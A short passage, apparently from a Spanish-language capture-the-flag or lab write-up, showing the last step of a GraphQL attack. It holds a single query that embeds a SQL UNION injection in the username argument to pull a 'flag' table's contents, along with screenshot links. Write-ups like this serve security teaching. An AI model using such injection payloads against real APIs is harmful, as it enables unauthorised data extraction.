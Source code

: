 [![graphql19](/images/graphql19.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql19.png)

Finalmente, extraemos el contenido:

```graphql
{"query":"{user(username: \"prueba' UNION SELECT 1,2,GROUP_CONCAT(flag),4,5,6 FROM flag-- -\") { id username msg role }}"}
```

[![graphql20](/images/graphql20.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql20.png)

[![graphql21](/images/graphql21.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql21.png)
